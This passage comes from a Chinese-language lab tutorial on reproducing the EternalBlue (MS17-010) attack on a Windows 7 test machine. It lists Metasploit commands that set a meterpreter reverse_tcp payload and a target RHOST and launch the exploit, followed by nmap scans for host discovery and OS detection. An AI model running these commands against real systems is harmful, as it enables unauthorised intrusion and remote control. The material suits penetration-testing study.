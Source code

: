 ```cobol
 
查看设置
 
set payload windows/x64/meterpreter/reverse_tcp  
 
设置 攻击模块为 这个漏洞
 
options
 
查看参数
 
set  RHOST  192.168.100.158   
 
设置攻击对象
 
run
 
进行攻击
 
```

大致就差不多是这样



## 我们复现一下 永恒之蓝 ms17-010

首先准备win7 的 IP  地址 我这里是 192.168.222.133

我们先通过 nmap 查看 一个网段存活的主机

```cobol
nmap -sS 192.168.222.0/24
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4971f10572a9f448c9f43c029026cfdf.png" alt="" style="max-height:143px; box-sizing:content-box;" />


发现存在 5 个 其中能发现我们要攻击的主机ip

133



<img src="https://i-blog.csdnimg.cn/blog_migrate/79ee03d097371bf18996507eab6dcf83.png" alt="" style="max-height:250px; box-sizing:content-box;" />


那么我们就看看 他是什么系统的

```cobol
nmap -O 192.168.222.133
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7602a2246123fa9087c39a5472af3a38.png" alt="" style="max-height:132px; box-sizing:content-box;" />
